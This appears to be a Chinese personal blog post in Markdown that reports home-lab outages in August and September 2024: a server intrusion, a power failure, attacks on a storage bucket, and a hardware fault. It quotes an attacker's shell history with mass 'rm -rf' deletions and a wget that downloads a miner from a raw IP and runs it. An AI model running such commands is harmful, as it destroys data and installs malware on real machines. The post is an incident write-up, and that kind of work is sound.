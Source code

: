 ```yaml
---
title: 服务崩溃报告
date: 2024-08-30 18:32:39
updated: 2024-08-30 18:32:39
tags: 公告
description: 如题
categories: 技术类
---
```




8月中旬，我在学校尝试远程回家的时候发现出了点意外，没想到是出了点大问题啊，简单记录一下

在以后有什么大规模的崩溃也会记录在这里（但愿不要再写下去{% emoji blobcat blobcatsipsweat %}



## 2024/8

在8月15日下午1点，家里`ikuai-kvm`节点被入侵，执行到的相关命令如下

```bash
  338  free
  339  top
  340  ps aux
  341  apt remove sendmail* docker* container*
  342  ps aux
  343  cd /home
  344  ls
  345  rm -rf *
  346  cd /
  347  ls
  348  rm -rf www
  349  cd /etc/systemd/system
  350  ls
  351  ps aux
  352  ls
  353  rm -rf cloud* db* ddn* nez* mcsm*
  354  ls
  355  cd multi*
  356  ls
  357  rm -rf cloud* db* ddn* nez* mcsm*
  358  ls
  359  rm -rf cont* docker* tail* x-ui*
  360  cd /usr/local
  361  ls
  362  rm -rf x*
  363  rm -rf bt*
  364  cd
  365  ls
  366  w
  367  rm -rf *
  368  reboot
  369  free
  370  ps aux
  371  ls
  372  netstat -lntu
  373  ping 8.8.8.8
  374  yum install msr-tools
  375  apt install msr-tools
  376  apt autoremove
  377  ls
  378  nproc
  379  mkdir .sys
  380  cd .sys
  381  wget http://54.71.19.189:8088/x.tar
  382  tar xzvf x.tar
  383  ./hash
  384  ./s
  385  exit
```



后面就是挖矿病毒了，不是哥们你挖矿就挖矿，你还删我东西啊。他甚至名称都不舍得给我打全，用通配符来替代

{% image https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831161032128.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831161032128.png image-20240831161032128 %}

我当时在学校临时将路由后台映射	切换到另一台服务器下，进到后台后看到路由器cpu温度有70多度，我就知道事情不简单

{% image https://onep.hzchu.top/mount/pic/myself/2024/08/Snipaste_2024-08-30_21-43-29.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/08/Snipaste_2024-08-30_21-43-29.png Snipaste_2024-08-30_21-43-29 %}

在`Aug 16, 5:34 AM GMT+8`时完全下线

**影响范围**：图片分发节点，mc服务器官网，图床，Gitea，大量私有服务（无法统计）

**补充**：由于由于图床需要将远程云盘目录映射到本地，同时我也测试镜像站在该服务器的部署，导致在执行清删除操作时同步清除了云盘中挂载的所有内容，合计1405个文件，已恢复

{% image https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831161146700.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831161146700.png image-20240831161146700 %}

**分析**：包是宝塔了，我另一台在香港的服务器之前用宝塔直接被菠菜网站修改好几回nginx配置，现在三台服务器就这一台还是用着宝塔没有迁移了，里面的服务大多是docker虚拟化的，直接部署的也都是开源的程序，基本不会引进病毒，唯一可能的后门最严重的只剩下这个宝塔了。作为对比啊，我内网下另一台服务器用的是1panel，一点事没有。

**灾难恢复**：由于并没有妥善的统计内网下的服务，因此想完整恢复有点困难，但主要业务相关端口均有记录在tailscale，可以起一定参考作用

{% image https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831141247847.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831141247847.png image-20240831141247847 %}

**措施**： 迁移图床到`hk-tt`（丢失图床数据），启用ipv6防火墙

**已恢复**：图片分发节点，ZTale，bluemap，mcsm





在8月21号，家里面线路泡水短路，总闸跳了。此外由于故障时间过长，ups干没电了，导致`PVE-SERVER`BIOS数据丢失（CMOS电池那部分线路坏了）来电重启后无法从正确的硬盘引导启动，已修复

**影响范围**：mc服务器，部分私有服务

**状态**：已恢复



在8月13号及往后，位于缤纷云的图片储存桶不时遭到攻击，由于我设置了严苛的访问政策，只造成3.12元的损失

{% image https://onep.hzchu.top/mount/pic/myself/2024/08/Snipaste_2024-08-30_17-47-29.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/08/Snipaste_2024-08-30_17-47-29.png Snipaste_2024-08-30_17-47-29 %}

{% image https://onep.hzchu.top/mount/pic/myself/2024/08/Snipaste_2024-08-30_17-47-35.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/08/Snipaste_2024-08-30_17-47-35.png Snipaste_2024-08-30_17-47-35 %}

**影响范围**：博客首页文章图片，友链头像图片

**措施**：文章封面迁移到自建图床，友链图片并入博客文件

## 2024/9

`PVE-SERVER`在外接一部手机后负载过大，可能存在硬件故障导致电源保护。

**状态**：~~已恢复，但存在电感啸叫，不确定是否仍存在问题~~。硬盘数据似乎出现毁灭性问题，暂时搁置

{% image https://onep.hzchu.top/mount/pic/myself/2024/09/Snipaste_2024-09-16_17-59-47.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/09/Snipaste_2024-09-16_17-59-47.png 状态统计数据 %}

